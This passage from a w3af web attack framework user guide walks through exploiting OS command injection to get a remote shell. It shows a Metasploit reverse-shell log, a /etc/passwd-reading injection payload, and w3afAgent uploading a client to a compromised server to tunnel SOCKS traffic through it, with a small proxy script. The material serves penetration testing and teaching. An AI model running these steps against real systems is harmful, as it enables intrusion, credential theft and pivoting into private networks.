Selecting port "8080/TCP" for inbound connections from the compromised server to w3af.
And if we take a look at the metasploit web interface we will find something far more interesting:
[*] Started reverse handler
[*] The remote IP address is: 172.16.1.128
[*] Using remote IP address to create payloads.
[*] Sent payload to vdaemon.
[*] The estimated time to wait for the extrusion scan to complete is: 1 seconds.
[*] Done waiting!
[*] The estimated time to wait for PE/ELF transfer is: 8 seconds.
[*] Waiting...
[*] Done waiting!
[*] Going to wait for 27 seconds (waiting for crontab/at to execute payload).
[*] The session could start before the handler, so please *be patient*.
[*] Command shell session 1 opened (172.16.1.1:4444 -> 172.16.1.128:1047)
[*] Done waiting!
[*] Starting handler
Microsoft Windows 2000 [Version 5.00.2195]
(C) Copyright 1985-2000 Microsoft Corp.
C:\WINNT\system32>
Now the user has an interactive shell with the privileges of the user running the web server, that can be used without any restrictions, you could even close w3af now and continue working directly from the metasploit shell.
As said before, this feature allows you to create a reverse tunnel that will route TCP connections through the compromised server. Unlike virtual daemon, these feature is ready to use and doesn't require any other software. Before going through an example to see how to use this feature, we will make a summary of the steps that will happened during exploitation:
w3af finds a vulnerability that allows remote command execution
The user exploits the vulnerability and starts the w3afAgent
w3af performs an extrusion scan by sending a small executable to the remote server. This executable connects back to w3af and allows the framework to identify outgoing firewall rules on the remote network.
w3afAgent Manager will send a w3afAgentClient to the remote server. The process of uploading the file to the remote server depends on the remote operating system, the privileges of the user running w3af and the local operating system; but in most cases the following happends:
w3af reuses the information from the first extrusion scan, which was performed in step 3 in order to know which port it can use to listen for connections from the compromised server.
If a TCP port is found to be allowed in the remote firewall, w3af will try to run a server on that port and make a reverse connection from the compromised in order to download the PE/ELF generated file. If no TCP ports are enabled, w3af will send the ELF/PE file to the remote server using several calls to the “echo” command, which is rather slow, but should always work because it's an in-band transfer method.
w3afAgent Manager starts the w3afAgentServer that will bind on localhost:1080 (which will be used by the w3af user) and on the interface configured in w3af ( misc-settings->interface ) on the port discovered during step 3.
The w3afAgentClient connects back to the w3afAgentServer, successfully creating the tunnel
The user configures the proxy listening on localhost:1080 on his preferred software
When the program connects to the socks proxy, all outgoing connections are routed through the compromised server
Now that we know the theory, let's see an example of what this feature can do:
$ ./w3af
w3af>>> plugins
w3af/plugins>>> audit osCommanding
w3af/plugins>>> audit
Enabled audit plugins:
osCommanding
w3af/plugins>>> back
w3af>>> target
w3af/target>>> set target http://172.10.10.1/w3af/v.php?c=list
w3af/target>>> back
w3af>>> start
The list of found URLs is:
- http://172.10.10.1/w3af/v.php
Found 1 URLs and 1 different points of injection.
The list of Fuzzable requests is:
- http://172.10.10.1/w3af/v.php | Method: GET | Parameters: (c)
Starting osCommanding plugin execution.
OS Commanding was found at: http://172.10.10.1/w3af/v.php . Using method: GET. The data sent was: c=%2Fbin%2Fcat+%2Fetc%2Fpasswd The vulnerability was found in the request with id 2.
w3af>>> exploit
w3af/exploit>>> exploit osCommandingShell
osCommanding exploit plugin is starting.
The vulnerability was found using method GET, tried to change the method to POST for exploiting but failed.
Vulnerability successfully exploited.
Execute "exitPlugin" to get out of the remote shell. Commands typed in this menu will be runned on the remote web server.
Nothing really new until now, we configured w3af, started the scan and exploited the vulnerability.
w3af/exploit/osCommandingShell>>> start w3afAgent
Initializing w3afAgent system, please wait.
Please wait some seconds while w3af performs an extrusion scan.
The extrusion scan failed.
Error: The user running w3af can't sniff on the specified interface. Hints: Are you root? Does this interface exist?
Using inbound port "5060" without knowing if the remote host will be able to connect back.
The last messages are printed when you run w3af as a normal user, the reason is simple, when you run w3af as a user you can't sniff and therefor can't perform a successful extrusion scan. A successful extrusion scan would look like:
Please wait some seconds while w3af performs an extrusion scan.
ExtrusionServer listening on interface: eth1
Finished extrusion scan.
The remote host: "172.10.10.1" can connect to w3af with these ports:
- 25/TCP
- 80/TCP
- 53/TCP
- 1433/TCP
- 8080/TCP
- 53/UDP
- 69/UDP
- 139/UDP
- 1025/UDP
The following ports are not bound to a local process and can be used by w3af:
- 25/TCP
- 53/TCP
- 1433/TCP
- 8080/TCP
Selecting port "8080/TCP" for inbound connections from the compromised server to w3af.
In both cases (superuser and user), these should be the following steps:
Starting w3afAgentClient upload.
Finished w3afAgentClient upload.
Please wait 30 seconds for w3afAgentClient execution.
w3afAgent service is up and running.
You may start using the w3afAgent that is listening on port 1080. All connections made through this SOCKS daemon will be relayed using the compromised server.
And now, from another console we can use a socksClient to route connections through the compromised server:
$ nc 172.10.10.1 22
(UNKNOWN) [172.10.10.1] 22 (ssh) : Connection refused
$ python socksClient.py 127.0.0.1 22
SSH-2.0-OpenSSH_4.3p2 Debian-8ubuntu1
Protocol mismatch.
$ cat socksClient.py
import extlib.socksipy.socks as socks
import sys
s = socks.socksocket()
s.setproxy(socks.PROXY_TYPE_SOCKS4,"localhost")
s.connect((sys.argv[1],int(sys.argv[2])))
s.send('\n')
print s.recv(1024)
More information about the framework, ( usage, bugs, TODO list and news ) can be found in the project homepage:
I have also created two mailing lists, one for developers and one for users, both are public. The URL for the mailing lists is:
http://sourceforge.net/mail/?group_id=170274
The framework is still under development and has many known ( and unknown of course! ) bugs. Code contribution is welcome, a plugin developer guide will be written shortly to aid new developers enter the w3af world. For a list of known bugs and a TODO list, please see:
http://sourceforge.net/pm/?group_id=170274
This document is merely and introduction, complete knowledge about the framework and its usage is complex and can be achieved only by using it.
Making a mistake and learning from it, takes you one step closer to wisdom.